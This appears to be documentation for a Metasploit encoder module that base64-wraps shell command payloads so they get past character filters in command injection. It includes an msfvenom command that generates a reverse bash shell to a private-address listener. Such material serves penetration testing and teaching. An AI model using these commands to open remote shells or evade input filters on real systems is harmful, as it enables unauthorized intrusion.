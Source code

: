 # Base64 Command Encoder

## Module Overview

This encoder uses base64 encoding to avoid bad characters in command payloads sent to UNIX-like systems. It is useful when you need to inject or execute shell commands but certain characters (such as spaces, dashes, or special symbols) are not allowed.

The encoder wraps the base64-encoded payload in a command that decodes and executes it on the target, using available utilities like `base64`, `openssl`, or various shell redirection tricks.

## Options

- **Base64Decoder** (optional): The binary to use for base64 decoding. Options are:
  - `base64` (auto-detects and uses `base64 --decode` or `base64 -d`)
  - `base64-long` (forces `base64 --decode`)
  - `base64-short` (forces `base64 -d`)
  - `openssl` (uses `openssl enc -base64 -d`)

Default is to automatically select an available decoder based on the target environment.

## Usage Example

To use this encoder with a payload (example: reverse bash shell):

```sh
msfvenom -p cmd/unix/reverse_bash LHOST=10.0.0.1 LPORT=4444 -e cmd/base64
```

Or, within Metasploit:

```
set ENCODER cmd/base64
set Base64Decoder base64
```

## Scenarios

- Useful for web exploits, command injection, and any context where only a limited set of shell characters are allowed.
- Helps bypass input filters by avoiding problematic characters.

## References

- [Base64 encoding - Wikipedia](https://en.wikipedia.org/wiki/Base64)
